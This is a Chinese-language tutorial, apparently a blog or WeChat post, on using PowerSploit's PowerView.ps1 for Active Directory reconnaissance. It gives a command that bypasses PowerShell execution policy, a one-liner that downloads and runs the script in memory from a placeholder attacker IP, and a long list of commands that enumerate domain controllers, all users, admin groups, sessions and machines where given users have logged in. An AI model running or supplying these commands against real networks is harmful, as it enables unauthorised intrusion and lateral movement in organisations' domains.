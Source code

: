 PowerSploit 的用法

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2el8IVJb5iaQMuhOH5eb7lm8MqBcwrW4eZsOpPXx3IKVx6zsCmp8cf0KbaQk6sF7lUa5jKMutMNyFw/640?wx_fmt=gif)

首先，我们想用里面哪个脚本，就先下载该脚本，然后导入该脚本，执行其中的模块。我们以 PowerView.ps1 脚本为例，该脚本主要用于搜集域信息。  

=============================================================================

我们先下载 PowerView.ps1 脚本到本地，然后在当前目录下打开 cmd，执行以下命令执行 PowerView.ps1 脚本中的 Get-NetDomain 模块，如果要执行该脚本的其他模块，亦是如此

```
powershell -exec bypass Import-Module .\powerview.ps1;Get-NetDomain
```

```
powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/powerview.ps1');import-module .\powerview.ps1;Get-NetDomain
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2el8IVJb5iaQMuhOH5eb7lm80LoxS3LfPed5PIxnERxN6VKicC2OHYcFXJdjXibplUR9FogVRoxt6Hicg/640?wx_fmt=png)

如果需要远程加载模块的话，我们先将 PowerView.ps1 放到我们的 http 服务目录下，然后执行以下命令

```
Get-NetDomain               #查看域名称
Get-NetDomainController     #获取域控的信息
Get-NetForest               #查看域内详细的信息
Get-Netuser                 #获取域内所有用户的详细信息
Get-NetUser | select name   #获得域内所有用户名
Get-NetGroup        #获取域内所有组信息
Get-NetGroup | select name  #获取域内所有的组名
Get-NetGroup *admin* | select name   #获得域内组中带有admin的
Get-NetGroup "Domain Admins"         #查看组"Domain Admins"组的信息
Get-NetGroup -UserName test   #获得域内组中用户test的信息
 
Get-UserEvent        #获取指定用户日志信息
Get-NetComputer             #获取域内所有机器的详细信息
Get-NetComputer | select name   #获得域内主机的名字
Get-Netshare                #获取本机的网络共享
Get-NetProcess              #获取本机进程的详细信息
Get-NetOU                #获取域内OU信息
Get-NetFileServer      #根据SPN获取当前域使用的文件服务器
Get-NetSession         #获取在指定服务器存在的Session信息
Get-NetRDPSESSION           #获取本机的RDP连接session信息
Get-NetGPO           #获取域内所有组策略对象
Get-ADOBJECT                #获取活动目录的信息
Get-DomainPolicy       #获取域默认策略
 
Invoke-UserHunter           #查询指定用户登录过的机器
Invoke-EnumerateLocalAdmin  #枚举出本地的管理员信息
Invoke-ProcessHunter        #判断当前机器哪些进程有管理员权限
Invoke-UserEventHunter    #根据用户日志获取某域用户登陆过哪些域机器
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2el8IVJb5iaQMuhOH5eb7lm8LLXVwFCUCqOdsftw0hBDeI3Yticqxf3HBHewAiaDQhiaibSuT5wl3x1XLQ/640?wx_fmt=png)  
